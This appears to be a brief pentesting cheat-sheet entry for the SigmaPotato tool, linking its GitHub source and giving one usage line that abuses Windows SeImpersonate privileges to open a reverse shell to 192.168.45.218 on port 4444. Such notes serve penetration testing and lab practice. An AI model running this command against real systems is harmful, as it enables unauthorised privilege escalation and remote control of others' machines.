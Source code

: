 # Name
SigmaPotato

## Usage
```
# To abuse SeImpersonate Privileges to obtain reverse shell
.\SigmaPotato.exe --revshell 192.168.45.218 4444
```

## Source
https://github.com/tylerdotrar/SigmaPotato
